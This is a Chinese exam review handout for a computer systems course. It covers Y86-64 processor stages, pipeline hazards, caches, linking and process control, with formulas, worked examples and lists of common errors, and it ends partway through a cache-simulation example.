第一部分分析 2025 年试卷的结构和今年的范围，给出按讲次排列的高频考点表。第二部分是必背的公式与规则，考前一晚看这一部分即可。第三部分按讲次讲解每种题型的做法：每类题型先用一段话讲清思路，再给一道完整演算的例题，最后用橙色方框列出这种题最容易犯的错误。第四部分是 2025 年试卷的逐题解析，其中三处官方答案与课件定义不一致，解析中给出了按课件应得的结果和理由。第五部分从往年期中、期末题中挑出落在范围内的代表题作为加练。第六部分是陷阱总清单和考前检查表。
各讲的完整推导、图和研讨题解答都在对应讲次的复习讲义里，这里只在需要时注明小节号，例如“第 11 讲 11.5 节”。第 17 讲的 3.9 节依据 2026 版课件，完整的讲解、程序和实测结果在第 17 讲讲义中。
第一部分 考情分析#
1.1 2025 年第 2 次阶段测验的结构#
2025 年的第 2 次阶段测验在 2025 年 11 月 17 日（周一）进行，满分 100 分，共 24 道小题，卷面按讲次分成七组。表 1 列出了每组的分值、题型和考点，最后一列注明这道题在 2025 年秋季研讨题中的原型。
表 1 2025 年第 2 次阶段测验的结构
| 分组 | 分值 | 题号 | 考点 | 研讨题原型 |
|---|---|---|---|---|
| 第 9 讲 | 12 | 1–4 | ISA 规定哪些内容（不定项）；Y86-64 访存指令为什么固定用 rB 算地址；按 HCL 补电路图；寄存器与组合逻辑的时序图 | 第 9 讲研讨题（ISA、HCL 与电路） |
| 第 10 讲 | 16 | 5–6 | popq 在 SEQ 六个阶段的动作表；aluA 的 HCL 补全 | 第 10 讲研讨题（各指令的阶段表） |
| 第 11 讲 | 16 | 7–10 | 流水线的延迟与吞吐量；转发来自哪一级、送什么值；写出加载/使用冒险的代码并说明能否转发；写出加载/使用与 ret 的组合 | 第 11 讲研讨题（冒险的组合） |
| 第 12 讲 | 14 | 11–15 | SRAM 与 DRAM；ROM 判断；64 位数在内存条的 8 颗芯片上怎样存放；SSD 的特点；代码中的局部性 | 第 12 讲研讨题（内存条、SSD、局部性） |
| 第 13 讲 | 16 | 16–18 | 三种不命中；直接映射缓存的状态更新与命中次数；L2 的容量量级 | 第 13 讲研讨题（不命中的分类、缓存模拟） |
| 第 14/15 讲 | 14 | 19–21 | 优化的两个妨碍因素；哪些名字是链接器要解析的符号；main.o 中被填成 0 的地址和偏移 | 第 14、15 讲研讨题 |
| 第 16/17 讲 | 12 | 22–24 | 除以零属于故障时能否修改结果后继续；两道 fork（其中一道有 wait）的输出计数与可行性 | 第 16 讲研讨题（故障、fork、wait） |
从这张表可以读出四个特点。第一，分值在各讲之间相当平均，每讲 12–16 分，没有某一讲占绝对多数；分量最重的是第 10、11、13 讲，各 16 分，处理器和缓存合起来几乎占了一半。第二，题目几乎全部能在研讨题里找到原型：ISA 的边界、加载/使用加 ret 的组合、内存条的芯片、SSD、三种不命中、链接器的符号、故障的返回行为，都是研讨题直接问过的问题。第三，题型以填空和简答为主，简答题按要点给分，例如第 21 题（1）要写出“数组的地址”“编译时未知所以填 0”“由链接器”“重定位”四个要点各得 1 分，漏写一个要点就丢一分。第四，计算量不大，最长的计算是第 17 题的缓存模拟（6 次访问）和第 7 题的流水线计算，但这两道题的官方答案恰恰都有问题（第四部分），说明按课件定义一步步算清楚，比记住某个答案更可靠。
1.2 2026 年的范围与出题方向#
2026 年的课程日程与 2025 年几乎完全一致。2025 年第 16 讲（异常控制流 I）在 11 月 10 日（周一），第 17 讲（异常控制流 II：信号与非本地跳转）在 11 月 13 日（周四），测验在 11 月 17 日（周一）。2026 年第 16 讲在 11 月 9 日，第 17 讲在同一周讲授，测验在 11 月 16 日。由此推断，今年的范围同样是第 9–17 讲，卷面很可能仍按“第 9 讲……第 16/17 讲”分组。
第 17 讲是唯一的变数。2025 年卷面虽然写着“第 16/17 讲”，三道题却全部是第 16 讲的内容：故障的返回行为、fork 的输出计数、wait 带来的先后约束，一道信号题也没有。这很可能是因为第 17 讲距离测验只有三四天，研讨题也还没有讨论到它（2025 年第 17 讲没有单独的研讨题，第 18 讲的研讨题才接着出现）。今年大概率相同，但不能排除出一两道关于信号基本概念的小题，例如信号的待处理位只有一位、进程在什么时刻处理信号、Ctrl-C 发送的是哪个信号、哪两个信号不能被捕获。今年的第 17 讲课件（74 页）与 2025 版几乎相同，只多了“什么是后台作业”和事件驱动编程两页，没有新增知识点；研讨题到目前还没有发布。3.9 节按今年的课件整理了这些最可能考的点，复习时间仍应主要放在第 16 讲的 fork 和 wait 上。
出题方式也可以从第 1 次阶段测验推断。2026 年第 1 次测验比 2025 年多了不定项选择题，2025 年第 2 次测验本身就有三道不定项选择（第 1、14、20 题，全对才得分）。不定项选择最怕漏选和把“看起来像”的选项选进去，例如第 1 题的“参数放在 %rdi、%rsi”是调用约定而不是 ISA，第 20 题的 include 和 int 都不是符号。复习时遇到“哪些属于”“哪些是”这类问法，要逐个选项对照定义判断。
1.3 与往年期中、期末题的关系#
在实行阶段测验之前，第 9–14 讲（教材第 4–6 章）的内容属于期中考试，第 15–17 讲（教材第 7–8 章）属于期末考试。往年试卷因此可以分两类使用。近年（2019–2024 年）的期中题每年都有两道大题落在本次范围内：一道是处理器题，多数是“给 Y86-64 新加一条指令”，要求写出它在 SEQ 各阶段的动作或修改流水线（2019 年 irOpq、2020 年 leave、2021 年间接跳转 jXX *rB、2022 年条件出栈 cpopqXX），2024 年则是 PIPE 的前递与加载/使用冒险；另一道是缓存模拟与参数计算。期末题中则有“链接”和“异常控制流”两道大题，题型是判断符号的局部/全局、强/弱，判断命令行顺序能否链接成功，以及数 fork、判断可行输出。
阶段测验的题目比这些大题短得多，但考查的是同样的东西。2025 年第 5 题（popq 的阶段表）就是 2020 年期中 leave 题的缩小版，第 17 题（直接映射缓存的状态表）与 2020 年期中第五题的设定几乎相同，第 20 题（哪些是符号）是期末链接大题第一问的选择题版本。第五部分挑出了这几道代表题，做完它们，基本覆盖了阶段测验可能出现的计算类题型。
1.4 高频考点一览#
表 2 按讲次列出值得重点准备的考点。“2025 卷”一列注明 2025 年第 2 次测验是否考过，“往年大题”一列注明往年期中、期末是否以大题形式出现过，两列都有记号的考点最值得花时间。
表 2 第 9–17 讲高频考点
| 讲次 | 考点 | 2025 卷 | 往年大题 | 本讲义 |
|---|---|---|---|---|
| 9 | ISA 与微结构的边界；Y86-64 指令编码与长度；HCL 表达式与门电路互译；寄存器的时序 | ✓ | ✓ | 3.1、4.1 |
| 10 | SEQ 六个阶段的动作表（尤其 popq、pushq、call、ret、cmovXX）；新指令的阶段表；HCL 信号（srcA、dstE、aluA、aluB、mem_addr） | ✓ | ✓ | 3.2、4.2、5.1 |
| 11 | 延迟、吞吐量与流水线划分；数据冒险与转发的来源和优先级；加载/使用冒险；控制冒险（预测错误、ret）；冒险组合的控制信号 | ✓ | ✓ | 3.3、4.3、5.2 |
| 12 | SRAM 与 DRAM；ROM 与闪存；内存条与 DRAM 芯片的组织；磁盘访问时间；SSD；局部性的四种体现 | ✓ | ✓ | 3.4、4.4 |
| 13 | 地址划分 t、s、b；直接映射与组相联的状态模拟；三种不命中；写策略；缓存参数计算 | ✓ | ✓ | 3.5、4.5、5.3 |
| 14 | 两个妨碍优化的因素（过程调用、内存别名）；代码移动等常见优化；CPE、延迟界限与吞吐量界限；循环展开与多个累积变量 | ✓ | 少 | 3.6、4.6 |
| 15 | 符号的四种身份（全局、外部、局部、非符号）；强弱符号与三条规则；重定位条目与 PC 相对计算；静态库的命令行顺序 | ✓ | ✓ | 3.7、4.6、5.4 |
| 16 | 异常的四类及返回行为；系统调用；fork 输出计数与进程图；wait、waitpid；僵死与孤儿；execve | ✓ | ✓ | 3.8、4.7 |
| 17 | 信号的待处理与阻塞；接收的时刻；默认行为；SIGKILL、SIGSTOP；处理程序与 G0–G5；同一信号不排队；sigsuspend；setjmp 与 longjmp | — | ✓ | 3.9、5.5 |
第二部分 必背公式与规则一页纸#
2.1 处理器体系结构（第 9–11 讲）#
Y86-64 的指令长度只有四种，记住它们就能算出任何一条指令之后的 valP：halt、nop、ret 是 1 字节；rrmovq、cmovXX、OPq、pushq、popq 是 2 字节（指令码加寄存器字节）；jXX、call 是 9 字节（指令码加 8 字节地址）；irmovq、rmmovq、mrmovq 是 10 字节（指令码、寄存器字节、8 字节常数）。寄存器编号 0–E 依次是 %rax、%rcx、%rdx、%rbx、%rsp、%rbp、%rsi、%rdi、%r8–%r14，F 表示“没有寄存器”。凡是需要内存地址的指令，地址都由 rB 加 valC 算出（rmmovq、mrmovq 都写成 D(rB)），所以 ALU 的 B 口总是接 valB，A 口接 valC 或 valA。
SEQ 中最常考的几条指令的阶段动作见表 3。其余指令可以由它们拼出：irmovq 是“valE ← 0 + valC，写回 rB”；rrmovq 和 cmovXX 是“valE ← 0 + valA，条件成立才写回 rB”；jXX 在执行阶段算出 Cnd，更新 PC 时二选一。
表 3 SEQ 中几条关键指令的阶段动作（第 10 讲）
| 阶段 | OPq rA, rB | mrmovq D(rB), rA | popq rA | call Dest |
|---|---|---|---|---|
| 取指 | icode:ifun ← M1[PC]；rA:rB ← M1[PC+1]；valP ← PC+2 | 同左，另有 valC ← M8[PC+2]；valP ← PC+10 | rA:rB ← M1[PC+1]；valP ← PC+2 | valC ← M8[PC+1]；valP ← PC+9 |
| 译码 | valA ← R[rA]；valB ← R[rB] | valB ← R[rB] | valA ← R[%rsp]；valB ← R[%rsp] | valB ← R[%rsp] |
| 执行 | valE ← valB OP valA；设置 CC | valE ← valB + valC | valE ← valB + 8 | valE ← valB + (−8) |
| 访存 | 无 | valM ← M8[valE] | valM ← M8[valA] | M8[valE] ← valP |
| 写回 | R[rB] ← valE | R[rA] ← valM | R[%rsp] ← valE；R[rA] ← valM | R[%rsp] ← valE |
| 更新 PC | PC ← valP | PC ← valP | PC ← valP | PC ← valC |
pushq 与 popq 对称：pushq 用 valE = valB − 8 作为写内存的地址，popq 用旧的栈指针 valA 作为读内存的地址；ret 与 popq 相同，只是读出的 valM 送给 PC 而不是寄存器。
流水线的计算只有三条公式。设各级组合逻辑的延迟分别为 t1、t2、…、tk，流水线寄存器的延迟为 r，那么时钟周期 = max(ti) + r，吞吐量 = 1 ÷ 时钟周期（周期以 ps 计时，吞吐量是 1000 ÷ 周期 GIPS），一条指令的延迟 = k × 时钟周期。最后一条公式最容易用错：延迟是“级数乘以周期”，不是各级延迟之和，因为快的级也必须等满一个周期才能交给下一级（第 11 讲 11.1 节）。
PIPE 的冒险处理见表 4。转发的来源按优先级从高到低是 e_valE、m_valM、M_valE、W_valM、W_valE：同一个寄存器有多个来源时，取离当前指令最近、也就是最新的那个值。
表 4 PIPE 的冒险与流水线控制（第 11 讲）
| 情形 | 检测条件 | F | D | E | 代价 |
|---|---|---|---|---|---|
| 加载/使用 | E 中是 mrmovq 或 popq，且 E_dstM 是 D 中指令的源寄存器 | 暂停 | 暂停 | 气泡 | 1 个周期 |
| 预测错误 | E 中是 jXX 且 e_Cnd 为假 | 正常 | 气泡 | 气泡 | 2 个周期 |
| ret | D、E、M 中有 ret | 暂停 | 气泡 | 正常 | 3 个周期 |
| 组合 A：预测错误遇上 ret | E 中是预测错误的 jXX，D 中是 ret | 暂停 | 气泡 | 气泡 | 按预测错误处理 |
| 组合 B：加载/使用遇上 ret | E 中是写 %rsp 的加载，D 中是 ret | 暂停 | 暂停 | 气泡 | D 必须暂停而不是气泡 |
2.2 存储器层次与高速缓存（第 12–13 讲）#
SRAM 每位用 6 个晶体管，不需要刷新，速度快、价格贵、功耗高，用作高速缓存；DRAM 每位用 1 个晶体管加一个电容，需要定期刷新，密度高、价格低，用作主存。两者断电后数据都会丢失。ROM 一类的非易失性存储器断电后数据保留，名字叫“只读”，但 EEPROM 和闪存都可以电擦除重写，所以“只能读不能写”的说法是错的。一根 64 位的内存条由 8 颗 DRAM 芯片组成时，每颗芯片提供 8 位，一个 64 位字的 8 个字节分别存放在 8 颗芯片的同一个超单元里，8 颗芯片同时工作，一次就能读出整个字。
磁盘的访问时间 = 平均寻道时间 + 平均旋转延迟 + 平均传送时间，其中平均旋转延迟 = ½ × 60 ÷ RPM 秒，平均传送时间 = 60 ÷ RPM × 1 ÷ 每道平均扇区数 秒；容量 = 每扇区字节数 × 每道平均扇区数 × 每面磁道数 × 每盘面数 × 盘片数。计算时注意 1 GB 按 109 字节计。
局部性有两种：时间局部性是同一个对象在短时间内被反复访问，空间局部性是访问了一个位置之后很快访问它附近的位置。一段循环同时有四处体现：顺序执行的指令（指令的空间局部性）、反复执行的循环体（指令的时间局部性）、反复读写的累加变量（数据的时间局部性）、按地址顺序访问的数组（数据的空间局部性）。
高速缓存由 S = 2s 组构成，每组 E 行，每行一个 B = 2b 字节的块，总容量 C = S × E × B。m 位地址从高到低分成标记 t、组索引 s、块偏移 b 三段，t = m − s − b。E = 1 是直接映射，S = 1 是全相联。三种不命中是：冷不命中（第一次访问某个块，必然不命中）、容量不命中（工作集比整个缓存还大）、冲突不命中（缓存没满，但几个块映射到同一组，互相替换）。写命中时有直写和写回两种策略，写回需要一个脏位；写不命中时有写分配和非写分配两种策略；写回通常配写分配，直写通常配非写分配。平均访问时间 = 命中时间 + 不命中率 × 不命中处罚。
Core i7 的缓存层次是课件和考题的常用背景：每个核有 32 KB 的 L1 数据缓存与 32 KB 的 L1 指令缓存（8 路，约 4 个周期）、256 KB 的 L2（8 路，约 10 个周期），所有核共享 8 MB 的 L3（16 路，约 40–75 个周期），块大小都是 64 字节。
2.3 程序优化（第 14 讲）#
编译器不能做的优化来自两个妨碍因素。过程调用可能有副作用，例如修改全局变量，而且相同的参数可能返回不同的结果，所以编译器不能把循环条件里的 strlen(s) 擅自移到循环外。内存别名是两个看起来不同的指针可能指向同一个位置，所以编译器不能把 *dest 的累加放进寄存器，必须每次都读写内存。这两种优化都要程序员自己动手：把不变的计算移出循环，用局部变量累加，最后再写回一次。
CPE 是每处理一个元素需要的周期数。一个计算的 CPE 有两个下界。延迟界限是关键路径上每个元素要依次完成的运算的延迟之和，它限制了顺序相关的累加；吞吐量界限是每个元素需要的运算数除以功能单元每周期能完成的运算数，它是并行展开之后最终能达到的极限。课件所用 Haswell 处理器上，整数加法、整数乘法、浮点加法、浮点乘法的延迟分别是 1、3、3、5 个周期，单独一条累加链的 CPE 就等于这个延迟。用 k 个累积变量做 k × k 展开，把一条关键链拆成 k 条互不相关的链，CPE 才能逐步逼近吞吐量界限。
2.4 链接（第 15 讲）#
每个模块中的名字分四种身份：本模块定义、别的模块可以引用的全局符号（非 static 的函数和全局变量）；本模块引用、别处定义的外部符号；本模块定义、只在本模块可见的局部符号（static 的函数和变量，包括函数里的 static 局部变量）；以及根本不进符号表的名字（非 static 的局部变量、参数、宏、类型名、关键字、头文件名）。全局符号又分强弱：函数和已初始化的全局变量是强符号，未初始化的全局变量是弱符号。按课件 p.22 和往年期末答案的口径，只有声明而没有定义的外部符号也记作弱。
处理重名的三条规则是：不允许多个同名的强符号；一强多弱时选强符号；多个弱符号时任选一个。重定位时，汇编器在 .o 中把待定的地址或偏移填成 0，并留下重定位条目；链接器确定地址后按类型填入。PC 相对引用（R_X86_64_PC32 或 PLT32）填入的值 = 符号地址 + 加数 − 引用位置的地址（32 位有符号补码，可为负，执行时符号扩展），加数通常是 −4，所以结果正好等于“目标地址 − 下一条指令地址”；绝对引用（R_X86_64_32）填入符号地址 + 加数（32 位无符号，零扩展）。静态库按命令行从左到右扫描，只取出能解析当前未定义引用的成员，所以库要写在引用它的目标文件之后。
2.5 异常控制流（第 16–17 讲）#
异常分四类。中断由处理器外部的设备引起，是异步的，处理后返回下一条指令；陷阱是有意的，例如系统调用，返回下一条指令；故障可能恢复，例如缺页，处理后重新执行引起故障的那条指令，不能恢复就终止程序；终止是不可恢复的硬件错误，不返回。x86-64 Linux 的系统调用把编号放在 %rax，参数依次放在 %rdi、%rsi、%rdx、%r10、%r8、%r9，执行 syscall，返回值在 %rax，出错时返回负的错误码，C 库把它变成返回 −1 并设置 errno。
fork 调用一次、返回两次：父进程中返回子进程的 PID，子进程中返回 0；子进程得到父进程地址空间的独立副本，此后各改各的。一个程序的输出可能有多种顺序，判断一个输出是否可行要画进程图：同一进程内的语句按程序顺序排列，wait 在父进程中增加一条“某个子进程终止之后”的边，可行输出就是这张图的拓扑排序。n 次不受限制的 fork 产生 2n 个进程。进程终止后在被父进程回收之前是僵死进程；父进程先终止时，子进程由 init（1 号进程）收养并回收。wait(&status) 等待任意一个子进程，waitpid(pid, &status, options) 可以指定子进程；退出状态只保留低 8 位，WIFEXITED、WEXITSTATUS、WIFSIGNALED、WTERMSIG 用来解读 status。execve 成功时不返回，只有出错时才返回 −1。
信号（第 17 讲）是内核通知进程发生了某个事件的方式。发送信号就是内核在目的进程的待处理位向量中把对应位置 1，每种信号只有一位，所以同一种信号在被处理之前到达多次，也只会处理一次，信号不排队。进程可以用 sigprocmask 阻塞某些信号，被阻塞的信号可以被发送，但不会被接收。进程在从内核模式返回用户模式时计算 pnb = pending & ~blocked，从最小的编号开始逐个接收。默认行为有终止、终止并转储内存、停止直到收到 SIGCONT、忽略四种；SIGKILL 和 SIGSTOP 不能被捕获，也不能被忽略。常用信号的编号：SIGINT 2（Ctrl-C）、SIGKILL 9、SIGSEGV 11、SIGALRM 14、SIGCHLD 17（子进程停止或终止，默认忽略）、SIGTSTP 20（Ctrl-Z）。sigprocmask 的 SIG_BLOCK 是加入、SIG_UNBLOCK 是删去、SIG_SETMASK 是替换；sigsuspend(mask) 原子地用 mask 替换阻塞集合并睡眠，用来消除“检查标志之后、pause 之前”的竞争。setjmp 调用一次、返回一次或多次（第一次返回 0），longjmp 调用一次、从不返回，只能跳到尚未返回的函数中。
第三部分 分讲题型与陷阱#
3.1 第 9 讲：ISA 与逻辑设计#
第 9 讲的题目分两类。一类问概念的边界，最典型的是“哪些属于 ISA 规定的内容”。ISA 是硬件与软件之间的约定，它规定程序员看得见的东西：有哪些寄存器、每个多宽；有哪些条件码；内存怎样寻址、字节序是大端还是小端；每条指令的编码和语义，包括 call 会把返回地址压栈、访存指令支持哪些寻址方式；以及异常与状态码。不属于 ISA 的有两种：一是微结构，即硬件怎样实现这些语义，例如流水线有几级、有没有转发、缓存多大；二是软件之间的约定，即调用约定（ABI），例如参数放在 %rdi、%rsi，返回值放在 %rax，哪些寄存器由被调用者保存。判断时问自己一句“换一个编译器或换一种实现，这条会不会变”：会变的就不是 ISA。
另一类是 HCL、门电路与时序。HCL 的布尔表达式与门电路一一对应：&& 是与门，|| 是或门，! 是非门，表达式的嵌套关系就是电路的连接关系。最常考的两个电路都要能默写：位相等 eq = (a && b) || (!a && !b) 需要两个与门、两个非门、一个或门；位选择器 out = (s && a) || (!s && b) 需要两个与门、一个非门、一个或门，s 为 1 时输出 a。字级的 HCL 用方括号的情形表达式写多路选择器，按顺序取第一个成立的条件，最后一行常写 1 : ... 表示默认情况。时序题的关键是分清组合逻辑与寄存器：组合逻辑的输出随输入立即变化，寄存器只在时钟上升沿把输入存进来，两个上升沿之间输出保持不变。
例 3.1 带累加器的寄存器
2025 年第 4 题的电路是：寄存器的输出 Out 送回 ALU，与输入 In 相加；多路选择器在 Load 为 1 时选 In，为 0 时选 ALU 的结果；选择器的输出在下一个时钟上升沿存进寄存器。设各个时钟周期中的 In 依次是 1、3、5、7、9、11，Load 只在第 1 个和第 4 个周期为 1，那么每个上升沿之后的 Out 是多少？
第 1 个周期 Load 为 1，存入的是 In = 1，Out = 1。第 2 个周期 Load 为 0，存入 Out + In = 1 + 3 = 4。第 3 个周期存入 4 + 5 = 9。第 4 个周期 Load 又为 1，存入 In = 7，前面累加的结果被丢弃。第 5、6 个周期继续累加：7 + 9 = 16，16 + 11 = 27。所以 Out 依次是 1、4、9、7、16、27。
⚠ 第 9 讲的易错点
第一，调用约定不是 ISA：“前 6 个参数放在 %rdi、%rsi……”“返回值放在 %rax”都是 ABI 的规定，Y86-64 的硬件对此一无所知。但“call 把下一条指令的地址压栈”是 ISA 规定的指令语义，不要连带排除。第二，时序图中寄存器的输出只在上升沿改变，在两个上升沿之间输入怎样变都不影响输出；画图时不要让 Out 跟着 In 同时跳变。第三，Y86-64 的访存指令都用 rB 算地址，rmmovq 写成 rmmovq rA, D(rB)，mrmovq 写成 mrmovq D(rB), rA，这样硬件只需要一条“rB 加偏移”的地址通路（2025 年第 2 题）。
3.2 第 10 讲：SEQ 的阶段表与 HCL#
阶段表题给出一条指令，要求写出它在取指、译码、执行、访存、写回、更新 PC 六个阶段中的动作，或者补全其中几行。做这类题不需要死记每条指令，只需要记住几条原则，就能现场推出来。取指阶段的内容只取决于指令格式：有寄存器字节就读 rA:rB，有常数就读 valC，valP 等于 PC 加指令长度。译码阶段读出执行要用的寄存器：两个操作数分别读到 valA、valB；凡是涉及栈的指令，%rsp 都读到 valB（pushq、call 要算新栈顶），出栈类指令（popq、ret）还要把 %rsp 再读一份到 valA，作为读内存的地址。执行阶段只用 ALU 算一个值 valE：OPq 算 valB OP valA，访存指令算地址 valB + valC，栈指令算 valB ± 8，传送指令算 0 + valA 或 0 + valC。访存阶段要么读 M8[地址] 到 valM，要么把数据写进 M8[地址]。写回阶段最多写两个寄存器：valE 写到 dstE，valM 写到 dstM。
HCL 信号题问的是同一件事的另一面：例如 aluA 是“哪些指令的 A 口接 valA、哪些接 valC、哪些接常数 ±8”，srcA 是“哪些指令要读 rA、哪些要读 %rsp”。把阶段表按列看，就得到信号的定义。
例 3.2 pushq 的阶段表与 aluA
pushq rA 把 R[rA] 压栈。它有寄存器字节没有常数，所以取指是 icode:ifun ← M1[PC]、rA:rB ← M1[PC+1]、valP ← PC + 2。译码要读压栈的数据和栈指针：valA ← R[rA]，valB ← R[%rsp]。执行计算新栈顶：valE ← valB + (−8)。访存把数据写到新栈顶：M8[valE] ← valA。写回更新栈指针：R[%rsp] ← valE。最后 PC ← valP。
把 2025 年第 6 题中各指令的执行阶段放在一起看，就得到 aluA 的定义：OPq 和 rrmovq（cmovXX）的 A 口是 valA；irmovq、rmmovq、mrmovq 的 A 口是 valC；call 和 pushq 的 A 口是常数 −8；ret 和 popq 的 A 口是常数 8。其余指令（jXX、nop、halt）不使用 ALU。
⚠ 第 10 讲的易错点
第一，popq 读内存用的是旧栈指针 valA，不是 valE；pushq 写内存用的是新栈指针 valE。两者方向相反，写反了整行不得分。第二，popq 写回两个寄存器，R[%rsp] ← valE 和 R[rA] ← valM，当 rA 就是 %rsp 时，结果是读出的值（valM 优先）。第三，call 压栈的是 valP（返回地址），不是 valC；更新 PC 时 call 用 valC，ret 用 valM，jXX 按 Cnd 在 valC 与 valP 之间选择。第四，cmovXX 的写回带条件：Cnd 为假时不写，硬件做法是把 dstE 设成 RNONE。第五，题目要求“对存储器的引用标明字节数”时，要写 M8[...] 或 M1[...]，不能只写 M[...]。
3.3 第 11 讲：流水线#
流水线题有三种。第一种是划分与性能计算，用 2.1 节的三条公式：周期由最慢的一级决定，吞吐量是周期的倒数，延迟是级数乘以周期。题目常问“细分成均衡流水线后”的情形，做法是把每一级的组合逻辑按允许的最小粒度切开，使各级相等，然后重新套公式；如果题目说“不跨现有流水级重排电路”，那么只能在每一级内部切，最慢的一段决定了切开后的周期。
第二种是数据冒险与转发。判断方法是：找到当前在译码阶段（D）的指令要读的寄存器，再看流水线中比它早的指令里，谁最近写这个寄存器，此刻它在哪一级。在 E 级的指令用 e_valE 转发 ALU 的结果；在 M 级的指令，如果是加载就用 m_valM（本周期刚读出的内存值），否则用 M_valE；在 W 级的用 W_valM 或 W_valE。同一个寄存器有多个来源时取最近的那个，这就是 2.1 节说的优先级。填 PIPE 的 HCL 时，前缀的大小写按“这个值此刻在哪里”判断（第 11 讲 11.18 节）：本级指令的字段在本级前面的流水线寄存器里，用大写（D_icode、E_valC、M_valE）；某一级这个周期正在算的值还没有锁存，用那一级的小写（e_valE、e_dstE、e_Cnd、m_valM、m_stat、d_srcA）。所以加载/使用的条件是 E_dstM 与 d_srcA 比较，误预测在 E 级用 e_Cnd、到 M 级选 PC 时用 M_Cnd；取指级例外，正在取的指令只有 f_icode、f_valC、f_valP 等小写信号。
第三种是加载/使用冒险与控制冒险。加载指令要到访存阶段才得到数据，如果紧接着的下一条指令在译码阶段就要用它，数据还没有读出来，转发也来不及，只能暂停一个周期，让加载指令进入 M 级后再用 m_valM 转发，所以“转发可以部分解决、但仍需暂停一个周期”。ret 要到写回阶段才知道返回地址，期间插入三个气泡；条件跳转按“总是跳转”预测，预测错误在执行阶段发现，取消已经取进来的两条指令。两种情形同时出现时就是 2.1 节的组合 A、组合 B，组合 B（加载 %rsp 之后紧跟 ret）要求 D 级暂停而不是插入气泡。
例 3.3 哪一级转发
在 PIPE 上依次执行 irmovq $10, %rdx、irmovq $3, %rax、irmovq $7, %rbx、addq %rdx, %rax 四条指令。当 addq 位于译码阶段时，它的两个操作数分别从哪里得到？
addq 在 D 级时，前三条指令依次在 E、M、W 级：irmovq $7 在 E，irmovq $3 在 M，irmovq $10 在 W。%rax 由 M 级的 irmovq $3 写，它不是加载指令，结果在 M_valE 中，所以 valB 取 M_valE = 3。%rdx 由 W 级的 irmovq $10 写，valA 取 W_valE = 10。E 级的 irmovq $7 写的是 %rbx，与 addq 无关。如果把第二条改成 irmovq $3, %rdx，那么 M 级和 W 级的指令都写 %rdx，应取较新的 M 级，valA = M_valE = 3。
⚠ 第 11 讲的易错点
第一，延迟不是各级延迟之和。一条指令要经过 k 级，每级都要等满一个周期，所以延迟是 k × 周期。2025 年第 7 题的官方答案把原设计的延迟写成 340 ps（把 40、20、160、20、80、20 直接相加），按课件 p.9 的定义应为 3 × 180 = 540 ps，详见 4.3 节。第二，转发的值与目的寄存器要配对：e_valE 配 e_dstE，m_valM 配 M_dstM，不要把一条指令的值配给另一条指令的寄存器。第三，加载/使用冒险的检测条件只看 E 级的 mrmovq 和 popq，其他写寄存器的指令都能直接转发。第四，写“加载/使用与 ret 的组合”时，加载的目的寄存器必须是 %rsp，例如 mrmovq 0(%rdx), %rsp 后紧跟 ret，否则 ret 并不依赖它。
3.4 第 12 讲：存储技术与局部性#
第 12 讲的题目偏概念，多数是选择、判断和简答，但措辞往往很绝对，要逐字对照课件。SRAM 与 DRAM 的对比、ROM 与闪存、机械硬盘与 SSD、局部性，几乎每年都考，2.2 节的结论要记牢。简答题常见的是“为什么”：为什么一个 64 位数分散存放在内存条的 8 颗芯片里（每颗芯片的数据位宽只有 8 位，8 颗同时读写才能一次传送 64 位，带宽最大）；为什么 DRAM 要刷新（电容会漏电）；为什么 DRAM 的地址分行、列两次发送（减少地址引脚，代价是访问时间变长）；为什么 SSD 的写比读慢（闪存要先擦除整块才能写，写操作还会引起块的搬移）。
计算题主要是磁盘。记住访问时间的三项都是“平均”，而且旋转延迟取半圈，传送时间按一个扇区算。
例 3.4 磁盘访问时间
一块磁盘转速 7200 RPM，平均寻道时间 9 ms，每条磁道平均 400 个扇区。访问一个扇区的平均时间是多少？
转一圈需要 60 ÷ 7200 秒 ≈ 8.33 ms，平均旋转延迟是半圈，约 4.17 ms；读一个扇区需要转过 1/400 圈，约 8.33 ÷ 400 ≈ 0.02 ms。总时间约 9 + 4.17 + 0.02 ≈ 13.19 ms。可以看出寻道和旋转占了绝大部分，传送一个扇区的时间几乎可以忽略，所以读第一个字节很贵，读后面连续的字节几乎不花时间。
⚠ 第 12 讲的易错点
第一，“ROM 只能读不能写”是错的：EEPROM 和闪存都可以电擦除重写，只是次数有限（2025 年第 12 题）。第二，SSD 相对机械硬盘的劣势是同样容量价格更高、写入寿命有限，“价格更低”“寿命更长”都不是它的特点（2025 年第 14 题）。第三，局部性题要答全四种情况：指令和数据各有时间、空间两种局部性，只答数组的空间局部性只能得四分之一的分。第四，磁盘容量和传送速率中的 GB、MB 按 10 的幂计算，内存按 2 的幂计算。
3.5 第 13 讲：高速缓存#
缓存题的第一步永远是划分地址。由块大小 B 得到 b = log2B，由组数 S 得到 s = log2S，剩下的高位就是标记 t = m − s − b。题目给的往往是容量 C、块大小 B 和相联度 E，这时 S = C ÷ (B × E)。划好地址后，把每个访问地址写成二进制，按位切开，就知道它落在哪一组、标记是多少。
模拟题按访问顺序逐个处理：到对应的组里找有效且标记相同的行，找到就是命中；找不到就是不命中，把整块装入，组里没有空行时按替换策略（通常是 LRU）换出一行。直接映射每组只有一行，新块总是替换旧块。把每次访问写成一行“地址、二进制、组号、标记、命中与否、该组内容”，最不容易出错。最后填状态表时，Block 一列写的是整个块的地址范围，例如 Mem[48–51]，标记写成二进制。
不命中的分类按原因判断：第一次访问某个块，是冷不命中；缓存已经装满、工作集比缓存大，是容量不命中；缓存还有空位，但几个块映射到同一组互相替换，是冲突不命中。区分后两者的办法是设想一个容量相同的全相联缓存：在全相联缓存里也会不命中的，是容量不命中；只在当前结构中才不命中的，是冲突不命中。
例 3.5 直接映射与二路组相联的对比
地址空间 64 字节（m = 6），缓存容量 16 字节，块大小 4 字节，初始为空。按字节依次访问 0、17、1、18、33、2、16、35。分别用直接映射（S = 4，E = 1）和二路组相联（S = 2，E = 2，LRU）模拟。
直接映射时 b = 2、s = 2、t = 2。八个地址的二进制是 000000、010001、000001、010010、100001、000010、010000、100011，组号（中间两位）全是 00，标记依次是 00、01、00、01、10、00、01、10。三个块 M[0–3]、M[16–19]、M[32–35] 轮流占据第 0 组，每次访问都不命中：8 次不命中，其中 3 次冷不命中，另外 5 次是冲突不命中，因为整个缓存只用了一组，其余三组一直空着。
